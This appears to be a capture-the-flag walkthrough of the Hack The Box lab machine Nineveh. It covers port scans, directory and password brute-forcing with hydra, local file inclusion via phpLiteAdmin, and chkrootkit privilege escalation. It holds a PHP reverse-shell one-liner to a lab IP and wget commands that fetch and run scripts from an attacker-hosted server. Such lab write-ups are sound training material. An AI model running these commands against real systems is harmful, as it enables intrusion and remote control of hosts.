 # Hack the Box - Nineveh

```
Vulnerabilities:
  - Local File Inclusion
  - chkrootkit
```
## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.43 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

```CSS
▶ nmap -sC -sV -p 80,443 10.10.10.43 -oN deep.nmap

Nmap scan report for 10.10.10.43
Host is up (0.18s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234479646-7b054e0f-a213-479e-9a80-3d63bdcbb1ef.png)

---

## HTTPS/SSL
![image](https://user-images.githubusercontent.com/83878909/234479727-ccec4c69-ee5a-4d14-b0ac-20744987d630.png)

## SSL Certificate Information
```CSS
▶ openssl s_client -connect nineveh.htb:443
```
![image](https://user-images.githubusercontent.com/83878909/234488440-5c959a74-496a-48b6-87c9-8ff1ddb0ad47.png)

---

## Content Discovery
  - Directory brute-force - `http://nineveh.htb`
```CSS
▶ gobuster dir -u nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![image](https://user-images.githubusercontent.com/83878909/234485858-a451bd36-d418-447e-924a-bdecc2cd8c61.png)
![image](https://user-images.githubusercontent.com/83878909/234485999-3f3e259c-2a1d-420a-ac1f-4a41b74b2480.png)

  - Directory brute-force - `https://nineveh.htb`
```CSS
▶ gobuster dir -u https://nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-tls-validation
```
![image](https://user-images.githubusercontent.com/83878909/234487716-3c05a713-9514-4b7e-848f-5686b58b320b.png)
![image](https://user-images.githubusercontent.com/83878909/234484978-13d104de-2e36-46c6-8f17-fbb217cf826e.png)

---

## Brute-force Credentials
  - Page: `http://nineveh.htb/department/login.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234488924-25dd7cb9-7e32-4297-a545-3f04f699c6f7.png)
```CSS
Credentials: admin:1q2w3e4r5t
```

  - Page: `https://nineveh.htb/db/index.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234490465-5b8c57b0-03c2-4385-b2cc-a8bff186fdd9.png)
```CSS
Credentials: admin:password123
```
---
  - Home: `http://nineveh.htb/department/manage.php`
![image](https://user-images.githubusercontent.com/83878909/234503125-7b01ee2d-05ab-4a4d-99c3-34203400bef2.png)

  - Notes: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234503429-75a2e5b6-f739-4093-b2c2-b137aea0dd91.png)

---

  - Dashboard: `https://nineveh.htb/db/index.php`
![image](https://user-images.githubusercontent.com/83878909/234558464-b656bd0d-0942-4420-8e46-bbfbb833705f.png)

---

## Local File Inclusion(LFI)
  - URL: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234561596-3375a5a2-0015-448b-807c-2a5fb42aca58.png)
![image](https://user-images.githubusercontent.com/83878909/234561294-8c2c1a9c-db43-4dc6-baa3-9c53d31d8287.png)
![image](https://user-images.githubusercontent.com/83878909/234562592-182e614e-0287-4ba9-b0ff-6e1f9c626744.png)

## Searchsploit
```CSS
▶ searchsploit phpLiteAdmin
```
![image](https://user-images.githubusercontent.com/83878909/234558865-27ea3b54-64e7-4c1a-8ab4-527e8278b051.png)
![image](https://user-images.githubusercontent.com/83878909/234563586-f21678b1-c036-4f66-81b4-31cf99ad8690.png)
![image](https://user-images.githubusercontent.com/83878909/234564279-94bf032a-8eec-4587-a5ca-57939c4c2cc6.png)
![image](https://user-images.githubusercontent.com/83878909/234564484-13d373a3-d688-4fd8-b547-ef36d506ad93.png)
![image](https://user-images.githubusercontent.com/83878909/234564717-f30a4d82-67af-4659-a772-c09fcdb3fffc.png)

## Exploit Local File Inclusion
![image](https://user-images.githubusercontent.com/83878909/234565248-8cece311-7f2c-4c84-b335-e9eec6a6ff82.png)
![image](https://user-images.githubusercontent.com/83878909/234565557-3f97fa6b-65ac-4368-922f-00798fd18f5f.png)


## Initial Foothold
  - Reverse Shell
```CSS
php -r '$sock=fsockopen("10.10.14.25",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image](https://user-images.githubusercontent.com/83878909/234566958-ed5cc483-b3da-4cbd-b3f2-74a35ea013d7.png)
![image](https://user-images.githubusercontent.com/83878909/234567122-be3e8c54-0a79-4f54-b322-fa634f4d4289.png)
![image](https://user-images.githubusercontent.com/83878909/234599268-11fda74f-c812-4db5-ac75-450adb9320d4.png)

---

## Privilege Escalation
  - Upload `LinEnum.sh`.
```CSS
▶ cd /tmp
▶ wget http://10.10.14.12:5555/LinEnum.sh
▶ chmod +x LinEnum.sh
▶ ./LinEnum.sh
```

![image](https://user-images.githubusercontent.com/83878909/234602152-b1fe2633-a9bc-482a-8cb8-6d7a81accf96.png)
![image](https://user-images.githubusercontent.com/83878909/234601719-41e0eb4b-49ff-49a5-8ae4-898acc8d58cc.png)

![image](https://user-images.githubusercontent.com/83878909/234607621-64dbdecb-5d29-43ce-a0cf-0d7072cd3c55.png)

  - Upload `pspy64`
```CSS
▶ wget http://10.10.14.12:5555/pspy64
▶ chmod +x pspy64
▶ ./pspy64
```
![image](https://user-images.githubusercontent.com/83878909/234611389-ee33c978-c1c2-4022-a3f6-7bb715338377.png)
![image](https://user-images.githubusercontent.com/83878909/234611136-f13ee9a3-14b6-4b70-b39c-5d9c891e8d23.png)

![image](https://user-images.githubusercontent.com/83878909/234613642-752c8e5c-3627-4b75-ac35-c4df4ae970c9.png)

  - [Local Privilege Escalation - chkrootkit](https://vk9-sec.com/chkrootkit-0-49-local-privilege-escalation-cve-2014-0476/)

